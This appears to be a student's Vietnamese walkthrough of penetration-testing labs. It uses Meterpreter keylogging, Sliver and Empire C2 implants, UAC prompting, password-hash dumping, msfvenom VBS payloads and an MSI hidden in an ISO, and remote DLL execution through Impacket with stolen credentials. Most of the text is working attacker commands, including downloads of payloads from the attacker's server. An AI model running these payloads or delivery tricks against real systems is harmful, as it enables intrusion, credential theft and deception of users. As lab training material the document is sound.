

Ghi lại bàn phím (Keylogger): Khởi động bộ theo dõi bàn phím:

keyscan_start

Bây giờ, bạn hãy chuyển sang máy Windows, mở Notepad và gõ một câu gì đó, ví dụ: "my password is Re@llyL0ngP@ssw0rd!"

Quay lại máy Linux và xả dữ liệu bàn phím đã thu thập được:

keyscan_dump

Dừng keylogger và thoát:

keyscan_stop

```bash
exit
```



Phân tích đơn giản: Lệnh migrate là một phép thuật thực sự. Nó cho phép mã độc chuyển từ một ứng dụng này sang một ứng dụng khác ngay trong bộ nhớ RAM mà không làm mất kết nối. Còn keyscan sẽ tóm gọn mọi mật khẩu, tin nhắn hay email mà nạn nhân gõ trên bàn phím.
**Tổng kết: Thông qua Lab này, bạn đã thấy sự nguy hiểm của một phần mềm lỗi thời (Icecast) trên hệ thống. Chỉ bằng vài thao tác với Metasploit, chúng ta không những chiếm được quyền điều khiển mà còn có thể theo dõi mọi động tĩnh của nạn nhân thông qua sự linh hoạt của Meterpreter.**

## Lab 2.3.  Sliver
## Mục tiêu của chúng ta:

Làm quen với giao diện và tính năng của Sliver.

Thiết lập chế độ "Multiplayer" để làm việc nhóm.

Tạo trạm lắng nghe (listener) và đúc một payload (implant) để lây nhiễm.

Sử dụng tính năng execute-assembly để chạy mã độc ẩn danh hoàn toàn trên RAM.

Bước 1: Khởi động Sliver và thiết lập Chế độ Đa người chơi (Multiplayer)

Sliver được chia làm 2 phần: Server (máy chủ trung tâm) và Client (trạm điều khiển). Để chứng minh sức mạnh làm việc nhóm, chúng ta sẽ bật Server, kích hoạt chế độ Multiplayer và tạo một chứng chỉ cho một hacker giả định tên là "zerocool" tham gia vào chiến dịch.

Thực hành:

Mở Terminal trên Linux, chạy Sliver Server với quyền root:

```bash
sudo sliver-server
```



Tại dấu nhắc của Server [server] sliver >, bật chế độ nhiều người chơi:

multiplayer



Tạo một cấu hình (config) cho người chơi mới tên là zerocool, lưu file tại thư mục /tmp.

```bash
new-operator -n zerocool -s /tmp/ -l 10.130.10.25
```



Mở một Tab Terminal mới (để nguyên tab Server đang chạy). Chúng ta cần cấp quyền đọc cho file config vừa tạo và nạp nó vào Sliver Client:

```bash
sudo chown sec560:sec560 /tmp/*.cfg
```

sliver-client import /tmp/zerocool_10.130.10.25.cfg



Cuối cùng, kết nối vào Server với tư cách là zerocool:

sliver-client

(Phần này lỗi, em không thể kết nối tới máy nạn nhân)



Phân tích đơn giản: Lệnh new-operator sẽ sinh ra một file chứng chỉ (config). Trong thực tế, bạn sẽ gửi file này cho đồng đội của mình qua một kênh chat an toàn. Đồng đội của bạn chỉ cần nạp file này bằng lệnh sliver-client import là có thể chui vào cùng một phiên điều khiển với bạn. Chia sẻ quyền lực chưa bao giờ dễ dàng đến thế

Bước 2: Tạo Trạm lắng nghe (Listener) và Đúc Payload

Bây giờ bạn đang ở dấu nhắc sliver > (với tư cách là Client). Chúng ta cần mở một cổng dịch vụ để đón "con mồi" gọi về, đồng thời đúc một file .exe độc hại.

Thực hành:

Khởi tạo một trạm lắng nghe qua giao thức HTTPS (cổng 443 mặc định): https



Tạo payload cho hệ điều hành Windows. (Thay LINUX_ETH0_ADDRESS bằng IP cổng eth0 của máy Linux):

```bash
generate --os windows --skip-symbols --name first --http 10.130.10.128
```



Kiểm tra danh sách vũ khí vừa tạo:

implants



Phân tích đơn giản: Lệnh https tạo một cổng hứng kết nối mã hóa, giúp dữ liệu điều khiển của chúng ta trông giống như lưu lượng lướt web bình thường. Lệnh generate sẽ "đúc" ra một file thực thi tên là first.exe. Cờ --skip-symbols được dùng để bỏ qua bước làm rối mã (obfuscation) giúp quá trình tạo file diễn ra nhanh hơn trong môi trường Lab.

Bước 3: Phân phối Payload sang Windows

Vũ khí đã sẵn sàng, nhiệm vụ tiếp theo là đưa nó sang máy Windows của nạn nhân. Chúng ta sẽ dùng Python để dựng một web server tạm thời trên Linux.

Thực hành:

Mở một Tab Terminal khác trên Linux, khởi động Web server:

```bash
python3 -m http.server
```



Chuyển sang máy ảo Windows 10, mở PowerShell, đi tới Desktop và tải file mã độc về:

```bash
cd Desktop
```

```bash
wget http://10.130.10.128:8000/first.exe -OutFile first.exe
```

```bash
ls first.exe
```



Phân tích đơn giản: Lệnh python3 -m http.server là chiêu thức kinh điển của hacker để chia sẻ file nhanh chóng qua cổng 8000. Lệnh wget trên Windows (thực chất là bí danh của Invoke-WebRequest) giúp nạn nhân kéo file mã độc từ máy chúng ta về máy họ chỉ trong nháy mắt.

Bước 4: Kích hoạt Payload và Thu thập thông tin

Đã đến lúc giăng bẫy. Hãy chạy file trên Windows và quay lại Linux để tận hưởng thành quả.

Thực hành:

Trên máy Windows, nhấp đúp chuột vào file first.exe trên Desktop.

Quay lại Tab Terminal đang chạy sliver-client trên Linux, bạn sẽ thấy thông báo màu xanh báo hiệu Session mới kết nối.

Xem danh sách các phiên đang mở:

```bash
Sessions
```



Nhập vào phiên điều khiển bằng lệnh use kèm theo vài ký tự đầu tiên của Session 348b2eda

```bash
use 34
```



Khám phá thông tin mục tiêu:

info

```bash
whoami
```





Phân tích đơn giản: Sliver quản lý các máy nạn nhân thông qua khái niệm "Session" (hoặc Beacon). Lệnh info và whoami trả về thông tin chi tiết về hệ điều hành, địa chỉ IP và tài khoản đang chạy mã độc (trong trường hợp này là sec560).

Bước 5: Thực thi mã trên RAM (Execute-Assembly)

Nếu bạn gõ lệnh shell trong Sliver, nó sẽ cảnh báo bạn rằng: "Việc này là Bad OPSEC (rất dễ bị phát hiện)" vì gọi cmd.exe sẽ lưu lại dấu vết rõ ràng trên hệ thống. Thay vào đó, hacker hiện đại sử dụng các công cụ viết bằng C# (.NET) và ném thẳng chúng vào RAM của nạn nhân. Quá trình này gọi là "Fileless attack" (tấn công không dùng file).

Thực hành:

Tại dấu nhắc của Sliver, sử dụng công cụ SharpWMI.exe (đã có sẵn trên máy Linux của bạn) để truy vấn danh sách những người dùng đang đăng nhập trên máy Windows:

```bash
execute-assembly /home/sec560/labs/SharpWMI.exe action=loggedon
```

(Lưu ý: Linux phân biệt chữ hoa chữ thường, hãy gõ đúng đường dẫn)



Phân tích đơn giản: execute-assembly là một tính năng cực kỳ đáng sợ. Nó lấy file SharpWMI.exe đang nằm trên ổ cứng máy tính của bạn (kẻ tấn công), truyền nó qua mạng và chạy thẳng bên trong bộ nhớ RAM của máy nạn nhân. Máy nạn nhân sẽ thực hiện truy vấn WMI và trả kết quả về cho bạn mà hoàn toàn không ghi bất cứ file .exe nào xuống ổ cứng Windows, khiến các phần mềm diệt virus thông thường hoàn toàn bị "mù"!
**Tổng kết: Qua bài Lab này, bạn đã thấy sự tinh vi của một C2 Framework hiện đại. Sliver không chỉ giúp các nhóm Red Team phối hợp mượt mà, mà còn sở hữu những kỹ năng "tàng hình" vô cùng sắc bén như execute-assembly để dễ dàng qua mặt các hàng rào phòng thủ.**

## Lab 2.4: Empire

Bước 1: Khởi động hệ thống "Chỉ huy" (Empire Server & Client)

Empire hoạt động theo mô hình Máy chủ - Khách (Server - Client). Server sẽ chạy ngầm để quản lý các kết nối, trong khi Client là giao diện để hacker gõ lệnh tương tác.

Thực hành:

Mở Terminal trên máy Linux và khởi động Empire Server (cần quyền root):

```bash
cd /opt/empire
```

```bash
sudo ./ps-empire server
```



Mở thêm một tab Terminal mới, khởi động Empire Client để bắt đầu điều khiển:

```bash
cd /opt/empire
```

```bash
sudo ./ps-empire client
```



Phân tích đơn giản: Khi giao diện đồ họa chữ (ASCII Art) của Empire hiện lên, bạn đã sẵn sàng. Giao diện Client này rất giống với Metasploit, giúp bạn quản lý các Agent (điệp viên/mã độc) và Listener (bộ lắng nghe).

Bước 2: Thiết lập "Trạm lắng nghe" (Listener)

Để mã độc từ máy nạn nhân có thể gọi về, chúng ta cần bật một "Trạm lắng nghe". Ở đây ta sẽ dùng giao thức HTTP.

Thực hành:

Tại dấu nhắc của Empire, chọn Listener HTTP:

```bash
uselistener http
```



Thiết lập thời gian chờ (delay) giữa các lần mã độc gọi về là 1 giây (để lab chạy nhanh hơn, trong thực tế hacker thường để rất lâu để tránh bị phát hiện):

```bash
set DefaultDelay 1
```



Cài đặt Cổng (Port) và Địa chỉ IP (Host) của máy Linux (thay <LINUX_IP> bằng IP cổng eth0 của bạn):

```bash
set Port 9999
```

```bash
set Host http://10.130.10.128:9999
```



Kích hoạt Trạm lắng nghe:

execute


Phân tích đơn giản: Lệnh execute sẽ kích hoạt Listener. Listener này sẽ liên tục mở cổng 9999 chờ đợi tín hiệu từ bất kỳ mã độc nào được kết nối thành công từ máy nạn nhân.

Bước 3: Tạo mã độc tàng hình (Stager)

Đã có trạm lắng nghe, giờ ta cần tạo ra "điệp viên" (Stager) để thả vào máy nạn nhân. Chúng ta sẽ tạo một file .bat chứa mã PowerShell ẩn.

Thực hành:

Trở lại terminal (Client), gõ lệnh để tạo Stager:

```bash
usestager windows/launcher_bat
```

```bash
set Listener http
```

```bash
generate
```


Mã độc launcher.bat đã được tạo ra. Giờ hãy mở một tab Terminal thứ 3 trên Linux, di chuyển đến thư mục chứa mã độc và dựng một Web Server đơn giản để tải nó sang Windows:

```bash
cd /opt/empire/empire/client/generated-stagers/
```

```bash
python3 -m http.server
```


Phân tích đơn giản: File launcher.bat chứa một đoạn mã PowerShell được mã hóa (obfuscated). Điểm đặc biệt là sau khi nạn nhân chạy file này, nó sẽ tự động xóa chính nó (self-deleting) để xóa dấu vết, đồng thời mã độc chính sẽ nằm im trong bộ nhớ RAM

Bước 4: Thả mồi và câu cá (Deploy the Agent)

Bây giờ, hãy đóng vai một nhân viên văn phòng cả tin và vô tình tải file mã độc này về máy.

Thực hành:

Chuyển sang máy ảo Windows 10, mở một cửa sổ PowerShell (không cần quyền Admin).

Tải mã độc về Desktop:

```bash
cd Desktop
```

```bash
wget http://10.130.10.128:8000/launcher.bat -OutFile launcher.bat
```


Nhấp đúp chuột vào file launcher.bat trên màn hình Desktop Windows để chạy nó.

Quay lại màn hình Empire Client trên máy Linux, bạn sẽ thấy dòng chữ màu xanh lá báo hiệu: [+] New agent YBMH1AK2 checked in.


Phân tích đơn giản: Chúc mừng! Bạn đã lây nhiễm thành công. Tên của Agent là một chuỗi ký tự ngẫu nhiên (ví dụ: YBMH1AK2 ). Để dễ nhớ, hãy đổi tên nó bằng lệnh rename YBMH1AK2  agent1, sau đó gõ list để xem danh sách.


Bước 5: Plundering - Vơ vét thông tin và Tìm lỗ hổng (Modules)

Chúng ta đang ở trong máy tính nạn nhân, nhưng chỉ với quyền hạn thấp. Hãy dùng các module của Empire để vơ vét thông tin và tìm cách leo thang lên quyền Admin.

Thực hành:

Truy cập vào agent vừa đổi tên:

```bash
interact agent1
```


(Hoặc tùy phiên bản, dấu nhắc sẽ tự chuyển sang (Empire: agent1) >).

Chạy module winenum để thu thập thông tin hệ thống:

```bash
usemodule powershell/situational_awareness/host/winenum
```

execute

(Đợi một lát rồi gõ view 1 để xem kết quả).


Chạy công cụ thần thánh PowerUp để quét các lỗ hổng leo thang đặc quyền (PrivEsc):

```bash
usemodule powershell/privesc/powerup/allchecks
```

execute


(Gõ view 2 để xem kết quả).

Phân tích đơn giản: Trong Empire, khi bạn execute một module, nó sẽ tạo ra một Job (nhiệm vụ) chạy ngầm để không làm treo giao diện của bạn. Bạn dùng lệnh view <ID> để xem kết quả. PowerUp phát hiện ra tài khoản hiện tại nằm trong nhóm Local Admin, nhưng đang bị chặn bởi UAC (User Account Control).

Bước 6: Đánh lừa UAC (Bypass UAC)

Bởi vì Windows có tính năng UAC, dù bạn có quyền Admin thì mặc định ứng dụng vẫn chạy ở quyền thấp. Nếu ta thử trích xuất mật khẩu (module powerdump) lúc này, nó sẽ báo lỗi. Ta sẽ dùng chiêu trò để lừa người dùng cấp quyền cao nhất cho ta.

Thực hành:

Quay lại ngữ cảnh của Agent: gõ back cho đến khi dấu nhắc hiện (Empire: agent1) >.

Chạy module UAC Bypass:

```bash
usemodule powershell/privesc/ask
```

```bash
set Listener http
```

execute


Phân tích đơn giản: Module ask sẽ làm văng ra một bảng thông báo hợp lệ của Windows ngay trên màn hình nạn nhân, hỏi họ có muốn cấp quyền chạy "Windows PowerShell" không. Nếu nạn nhân bất cẩn bấm "Yes" (hãy sang máy Windows và bấm Yes nhé!), bạn sẽ lập tức nhận được một Agent thứ 2 kết nối về. Agent mới này có một dấu sao (*) bên cạnh tên, biểu thị cho quyền High Integrity (Administrator)!

Hãy đổi tên Agent mới này thành priv1 cho dễ thao tác.


Bước 7: Trích xuất mã băm (Hashdump) và Trinh sát mạng nội bộ

Giờ thì ta đã là "Vua" của máy tính này. Khám xét thôi!

Thực hành:

Truy cập vào Agent xịn:

```bash
interact priv1
```


Rút toàn bộ Hash (mã băm mật khẩu) của máy:

```bash
usemodule powershell/credentials/powerdump
```

execute


(Gõ view <Task_ID> để lấy danh sách Hash mật khẩu!).


Biến máy nạn nhân thành bàn đạp (Pivot) để quét các máy khác trong mạng nội bộ (Port Scan):

```bash
usemodule powershell/situational_awareness/network/portscan
```

```bash
set Hosts 10.130.10.25
```

execute


(Gõ view <Task_ID> để xem kết quả, bạn sẽ thấy máy chủ 10.130.10.10 đang mở cổng 22 và 23).


Bước 8: Dọn dẹp chiến trường (Wrap up)

Một hacker chuyên nghiệp luôn biết cách rút lui không để lại dấu vết.

Thực hành:

Tại giao diện Empire, gõ các lệnh sau để tiêu diệt toàn bộ mã độc và trạm lắng nghe:

agents

kill all

y


listeners

kill all

```bash
exit
```

y


Phân tích đơn giản: Lệnh kill all sẽ gửi tín hiệu tự hủy đến các Agent trên máy Windows, đồng thời đóng cổng mạng. Máy tính của nạn nhân trở về trạng thái bình thường như chưa từng có cuộc tấn công nào xảy ra.
**Tổng kết: Qua bài Lab này, bạn đã thấy sự nguy hiểm của các công cụ tấn công fileless (không tạo file cứng). Chỉ từ một Agent nhỏ bé bị lây nhiễm, chúng ta đã thăm dò, lừa nạn nhân cấp quyền Admin, đánh cắp toàn bộ cơ sở dữ liệu mật khẩu, và dùng chính máy đó để rà quét mạng nội bộ. Bạn đã sẵn sàng để thử sức bẻ khóa các mật khẩu vừa trích xuất được ở phần sau chưa?**

## Lab 2.5: Payloads
## Mục tiêu của chúng ta:

Hiểu các tùy chọn payload với công cụ MSFVenom và Metasploit.
## Cấu hình Metasploit multi/handler để hứng nhiều kết nối đổ về cùng lúc.

Tạo nhiều loại payload khác nhau để đánh lừa người dùng.

Sử dụng C2 Sliver để tạo payload và thực thi trên máy chủ từ xa thông qua Impacket.

Bước 1: Giăng lưới chờ mồi (Thiết lập Metasploit Handler)

Trước khi ném mã độc cho nạn nhân, bạn cần có một "trạm thu sóng" để hứng kết nối trả về. Chúng ta sẽ dùng tính năng multi/handler của Metasploit. Đây không phải là công cụ khai thác lỗ hổng, nó chỉ đơn giản là mở cổng và ngồi chờ mã độc gọi về.

Thực hành:

Trên Linux, mở Terminal và khởi động Metasploit:

```bash
msfconsole
```


Cài đặt "trạm thu sóng" và cấu hình payload là Meterpreter:

```bash
use exploit/multi/handler
```

```bash
set PAYLOAD windows/meterpreter/reverse_http
```


## Cấu hình địa chỉ IP của bạn (Kẻ tấn công) và Cổng lắng nghe (Port):

```bash
set LHOST eth0
```

```bash
set LPORT 3333
```


Chỉnh sửa cài đặt để "trạm" không tự tắt sau khi có 1 nạn nhân dính bẫy, sau đó khởi chạy chạy ngầm dưới nền:

```bash
set ExitOnSession false
```

```bash
run -j -z
```


Phân tích đơn giản:

```bash
set ExitOnSession false: Giúp Metasploit tiếp tục lắng nghe các kết nối khác thay vì tự đóng lại sau phiên đầu tiên.
```

-j -z: Khởi chạy công cụ dưới dạng Job (chạy ngầm) và không tự động nhảy vào tương tác với phiên ngay khi có kết nối.

Bước 2: Chế tạo vũ khí VBScript với MSFVenom

Hacker thường giấu mã độc vào các file tài liệu Office (Macro). Tuy nhiên, vì máy Windows của chúng ta không cài Office, ta sẽ dùng định dạng Visual Basic Script (VBS) thay thế - một kịch bản rất phổ biến.

Thực hành:

Mở một Terminal mới trên Linux (để giữ Metasploit vẫn đang chạy ngầm ở Terminal cũ).

Dùng công cụ msfvenom để chế tạo file VBS độc hại:

```bash
msfvenom -p windows/meterpreter/reverse_http lhost=eth0 lport=3333 -f vbs | tee /tmp/payload.vbs
```


Phân tích đơn giản:

-f vbs: Chỉ định định dạng đầu ra là VBScript.

Công cụ sẽ xuất ra một đoạn mã loằng ngoằng. Metasploit tự động ngẫu nhiên hóa các tên biến và hàm để làm rối mã, khiến phần mềm diệt virus khó nhận diện hơn.

Bước 3: Giao hàng và Kích nổ VBS Payload

Vũ khí đã sẵn sàng. Giờ ta cần chuyển nó sang máy nạn nhân và thực thi.

Thực hành:

Tại Terminal Linux vừa tạo payload, dựng một máy chủ Web tĩnh bằng Python:

```bash
cd /tmp
```

```bash
python3 -m http.server
```


Chuyển sang máy ảo Windows 10, mở PowerShell và tải file đó về Desktop:

```bash
cd Desktop
```

```bash
wget http://10.130.10.128:8000/payload.vbs -OutFile payload.vbs
```


Kích nổ mã độc bằng công cụ cscript mặc định của Windows:

cscript payload.vbs


Phân tích đơn giản: Cửa sổ PowerShell trên Windows sẽ bị treo vì mã độc đang chạy. Lúc này, nếu quay lại cửa sổ Metasploit trên Linux, bạn sẽ thấy thông báo Meterpreter session 1 opened. Bạn có thể gõ sessions -i 1 để điều khiển máy Windows, sau đó gõ exit để thoát phiên này nhằm chuẩn bị cho bẫy tiếp theo.


Bước 4: Ngụy trang tinh vi (MSI bọc trong file ISO)

Các tổ chức bảo mật ngày nay thường chặn tải các file mã lệnh (.vbs, .exe). Do đó, hacker chuyển sang chiến thuật nhét file cài đặt (MSI) vào trong một file đĩa ảo (ISO) để dễ dàng lọt qua các bộ lọc email.

Thực hành:

Tại Terminal Linux (nhấn Ctrl+C để tắt Web server Python đi), tạo một payload dạng file cài đặt .msi:

```bash
msfvenom -p windows/meterpreter/reverse_http lhost=eth0 lport=3333 -f msi -o /tmp/setup.msi
```


Đóng gói file cài đặt này vào trong một đĩa ảo .iso:

```bash
genisoimage -o /tmp/installer.iso /tmp/setup.msi
```


Bật lại Web server Python để tải file:

```bash
python3 -m http.server
```


Phân tích đơn giản: Lệnh genisoimage tạo ra một file ảnh đĩa CD/DVD. Kể từ Windows 10, người dùng chỉ cần click đúp chuột là đĩa ảo này sẽ tự động được "cắm" (mount) vào máy, trông rất hợp pháp và an toàn.

Bước 5: Nạn nhân sập bẫy ISO

Kịch bản: Người dùng nhận được email chứa file ISO, họ tò mò click mở nó lên...

Thực hành:

Trên máy ảo Windows 10, tải file ISO về:

```bash
wget http://10.130.10.128:8000/installer.iso -OutFile installer.iso
```


Ra màn hình Desktop của Windows, click đúp vào file installer.iso để mở nó ra.

Bên trong sẽ có file SETUP.MSI. Hãy click đúp vào nó để chạy.


Phân tích đơn giản: Sau khi chạy, Windows sẽ báo lỗi "There is a problem with this Windows Installer package...". Đừng lo, đây chính là nghệ thuật lừa dối! Lỗi này khiến nạn nhân nghĩ rằng bộ cài bị hỏng, nhưng thực chất mã độc đã âm thầm gọi về cho chúng ta. Kiểm tra Metasploit trên Linux, bạn sẽ thấy Meterpreter session 2 opened! Lưu ý: Gõ exit để thoát khỏi Meterpreter và thoát luôn cả lệnh msfconsole để dọn dẹp.


Bước 6: Chuyển hệ sang Sliver C2

Metasploit quá nổi tiếng nên rất dễ bị các phần mềm diệt virus "bắt bài". Các Red Teamer hiện nay thường chuyển sang dùng các Framework C2 (Command and Control) mới mẻ hơn như Sliver. Lần này ta sẽ chế tạo mã độc dưới dạng file thư viện DLL.

Thực hành:

Trên Linux, khởi động máy chủ Sliver:

```bash
sudo sliver-server
```


Bật cổng lắng nghe HTTPS:

```bash
https
```


Tạo payload dạng DLL kết nối về máy bạn qua giao diện mạng tun0 (Mạng VPN): generate --os windows --arch 64bit --format shared --skip-symbols --http https://10.130.10.128


Phân tích đơn giản:

--format shared: Chỉ định đầu ra là một file chia sẻ (DLL) thay vì file chạy (EXE).

--skip-symbols: Bỏ qua quá trình làm rối mã để tạo file nhanh hơn (chỉ dùng cho lab này để tiết kiệm thời gian).

Sliver sẽ báo tên file ngẫu nhiên vừa được tạo (ví dụ: COMMON_ATTRACTION.dll).

Bước 7: Thả mã độc lên máy chủ từ xa và kích hoạt

Giả sử ta đã trộm được mật khẩu của quản trị viên bgreen (Password1). Ta sẽ dùng bộ công cụ Impacket để kết nối vào máy chủ mail (10.130.10.25), thả file DLL vào ổ C và kích hoạt nó từ xa hoàn toàn im lặng.

Thực hành:

Mở một Terminal Linux mới. Cấp quyền sở hữu cho file DLL vừa tạo:

```bash
sudo chown sec560:sec560 *.dll
```


Dùng công cụ smbclient.py của Impacket để đăng nhập vào máy chủ và thả file:

```bash
smbclient.py bgreen:Password1@10.130.10.25
```

```bash
use c$
```

put COMMON_ATTRACTION.dll

```bash
exit
```


Dùng công cụ wmiexec.py để ra lệnh cho máy chủ Windows tự động chạy file DLL đó:

```bash
wmiexec.py bgreen:Password1@10.130.10.25
```

